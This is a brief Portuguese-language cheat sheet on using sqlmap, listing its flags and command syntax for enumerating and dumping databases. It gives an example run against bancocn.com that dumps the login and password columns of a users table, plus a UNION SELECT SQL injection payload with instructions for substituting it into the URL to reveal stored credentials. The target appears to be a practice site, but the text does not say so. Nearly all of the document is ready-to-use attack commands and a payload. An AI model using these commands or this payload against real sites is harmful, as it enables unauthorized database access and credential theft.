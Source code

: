 # Como usar SQLMAP 💉🗺️🌐
## Flags:
- "-U ou -r" (Faz requisição http para o site ou lê cabeçalho com id de sessão armazenado para conexão que bypassa Web Application Firewall)
- "-D" (nome database)
- "-T" (nome tabela)
- "-C" (nome coluna)
- "--dbs" (lista bancos de dados)
- "--tables" (lista tabelas)
- "--columns" (lista colunas)
- "--dump" (faz dump das informações das colunas)

## Sintaxe
"sqlmap -u (link) --dbs" <strong>OU</strong> "sqlmap -r (header) --dbs" <br>
"sqlmap -u (link) -D (banco de dados selecionado)" <br>
"sqlmap -u (link) -D (banco de dados selecionado) --tables (lista tabelas)" <br>
"sqlmap -u (link) -D (banco de dados selecionado) -T (nome da tabela selecionada)" <br>
"sqlmap -u (link) -D (banco de dados selecionado) -T (nome da tabela selecionada) --columns (lista colunas)" <br>
"sqlmap -u (link) -D (banco de dados selecionado) -T (nome da tabela selecionada) -C (seleciona colunas, separe as colunas por vírgulas) --dump (para exibí-las)" <br>

## Exemplo
<strong>sqlmap -u [http://bancocn.com] -D bancocn -T users -C login,password --dump</strong>

## PayLoad BancoCN SQL Injection 🟥💉
<code>-1 UNION SELECT 1,2,group_concat(id,";",login,";",password) FROM users</code>
### Substitua a partir do número 1 da URL, por essa instrução de consulta SQL, onde serão retornados na tela os dados da tabela users do Banco CN, esta instrução solicita de forma concatenada as requisições dos campos id, login e password da tabela USERS.
